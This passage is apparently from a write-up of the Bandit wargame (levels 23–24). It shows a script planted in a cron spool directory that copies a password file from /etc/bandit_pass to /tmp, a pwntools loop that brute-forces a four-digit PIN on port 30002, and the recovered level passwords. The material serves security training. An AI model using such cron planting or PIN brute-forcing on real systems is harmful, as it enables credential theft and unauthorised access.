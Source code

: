 ```bash
    fi
done
bandit23@bandit:~$ cd  /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ vi ooo
bandit23@bandit:/var/spool/bandit24/foo$ cat ooo
#!/bin/bash
mkdir /tmp/ooooooo
cat /etc/bandit_pass/$(whoami) > /tmp/ooooooo/pass
chmod 755 /tmp/ooooooo/pass
bandit23@bandit:/var/spool/bandit24/foo$ chmod +x ooo
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/ooooooo/pass
cat: /tmp/ooooooo/pass: No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/ooooooo/pass
cat: /tmp/ooooooo/pass: No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/ooooooo/pass
cat: /tmp/ooooooo/pass: No such file or directory
(After some time)
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/ooooooo/pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Level 24

Just bruteforce the port 30002 with pwntools.

```python
from pwn import *

r = remote('localhost','30002')

r.recvuntil(b'space.')

for i in range(10000):
    print("Trying",i)
    r.send(b'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ')
    r.sendline('{:04d}'.format(i))
    text = r.recvuntil(b'\n').decode()
    if ('Wrong!' in text):
        pass
    else:
        print(text)
```

However, this script is fxxking slow, about 5 requests per second.

So I'll just analyse it using simple method. Print the large list then pipe it into nc.

However, this method stops working when it tries to 6302 for no reason, it just stuck and no response, that's really strange...

So I tried to sleep for a little while after each request, and it works!

```bash
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```
